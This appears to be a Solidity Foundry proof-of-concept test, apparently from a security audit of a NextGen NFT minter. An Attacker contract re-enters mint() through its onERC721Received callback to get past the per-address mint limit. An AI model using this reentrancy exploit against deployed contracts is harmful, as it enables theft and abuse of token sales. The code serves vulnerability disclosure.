 ```
    Attacker attacker;
    address user;

    function setUp() public {
        user = makeAddr("user");
        _deploy();
        skip(1 days);
        _createCollectionWithSaleOption2();
    }

    function test_exploit() public payable {
        uint256 collectionId = 1;
        bytes32[] memory emptyProof;
        uint256 endTime = nextGenMinterContract.getEndTime(collectionId);
        vm.warp(endTime-1);

        uint256 price = nextGenMinterContract.getPrice(collectionId);
        vm.deal(user, price * 2);
        vm.startPrank(user);
        nextGenMinterContract.mint{value: price}(collectionId, 1, 1, "", user, emptyProof, address(0), 0);
        // Minting second token to EOA address would revert since max allowance per address is 1
        vm.expectRevert();
        nextGenMinterContract.mint{value: price}(collectionId, 1, 1, "", user, emptyProof, address(0), 0);
        vm.stopPrank();

        attacker = new Attacker(nextGenMinterContract, price, collectionId);
        vm.deal(address(attacker), price * 2);
        vm.prank(address(attacker));
        nextGenMinterContract.mint{value: price}(collectionId, 1, 1, "", address(attacker), emptyProof, address(0), 0);
        // Attacker successfully minted 2 tokens using reentrancy and bypassed max mint check
        assertEq(nextGenCore.balanceOf(address(attacker)), 2);
    }
}

contract Attacker {
    NextGenMinterContract minter;
    uint256 price;
    uint256 collectionId;
    constructor(NextGenMinterContract _minter, uint256 _price, uint256 _collectionId) {
        minter = _minter;
        price = _price;
        collectionId = _collectionId;
    }

    function mint() public payable {
        bytes32[] memory emptyProof;
        minter.mint{value: price}(collectionId, 1, 1, "", address(this), emptyProof, address(0), 0);
    }

    function onERC721Received(address, address, uint256, bytes memory) external returns (bytes4) {
        if (IERC721(msg.sender).balanceOf(address(this)) == 1) {
            mint();
        } 
        return hex'150b7a02'; 
    }
}
```
